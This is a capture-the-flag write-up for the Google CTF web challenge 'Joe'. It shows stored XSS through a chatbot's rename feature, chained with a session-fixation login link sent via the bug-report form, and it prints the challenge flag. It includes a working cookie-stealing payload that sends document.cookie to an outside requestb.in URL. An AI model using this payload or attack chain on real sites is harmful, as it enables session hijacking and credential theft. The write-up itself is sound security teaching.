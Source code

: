 # Joe ~ 90
Problem:
```
Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have some small talk with a machine. We have put extra emphasis on security when developing Joe, but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us make Joe even more secure. If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag.

Challenge running at https://joe.web.ctfcompetition.com/
```
![default](kapi-files/1.PNG)

After few look around we found that if we click on hyperlink then commands will prompt in our input.

* what is your name
* let me rename you
* do you know any puns
* what is the answer to the ultimate question
* report bug

**let me rename you** this command will let us change Joe's name to what ever we want and it's possible to inject XSS into that name which we will change to. We use [https://requestb.in](https://requestb.in) to setup temporary server to catch requests which could be generated from anywhere.

We change Joe's name into the following XSS and reload the page.
```javascript
<script>alert(1);</script>
``` 
![XSS](kapi-files/4.PNG)
As we expected the site is vulnerable to XSS. Now it could be roughly plan an attack to steal admin cookie by sending XSS-link to admin but how it could be. 

After reviewing login function we found that the login function has weakness called **session fixation** which is the session will be same value whenever we login or not. So if we pass this link to admin and let him participate to the link we might be able to catch admin's cookie.

The following is example of my login.
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

Now we prepare the exploitation by:
* Change Joe's name to JavaScript which will send cookies to our requestb.
* Report bug by sending our login URL with our token
* Admin should login to our session and his cookies should be sent to our reqestb.

## Setup XSS
By changing Joe's name to
```javascript
<script>document.write('<img src="https://requestb.in/our_resquestb_url?' + document.cookie);</script>
```
## Report bug
by sending 
```
https://joe.web.ctfcompetition.com/login?id_token=eyJhbGciOiJSUzI1--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------truncated-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------SHJaSYwNNA
```

We found a problem when we try to report the bug with very long URL.
![errorreportlongurl](kapi-files/8.PNG)

So we shortend it using goo.gl

Submit the bug again.
![submitbug](kapi-files/10.PNG)

## Reap our flag
![flag](kapi-files/9.PNG)

The flag was:
* CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; 

